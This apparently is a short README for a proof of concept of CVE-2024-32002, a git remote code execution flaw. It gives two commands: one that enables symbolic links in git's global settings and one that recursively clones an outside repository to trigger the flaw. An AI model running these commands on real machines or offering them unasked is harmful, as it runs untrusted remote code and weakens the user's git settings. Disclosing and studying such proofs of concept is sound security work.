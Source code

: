 # CVE-2024-32002 PoC
1. You must set up the git's symbolic link option like:
```
git config --global core.symlinks true
```

2. Then exploit CVE-2024-32002 by the following command:
```
git clone --recursive https://github.com/EQSTSeminar/git_rce.git
```
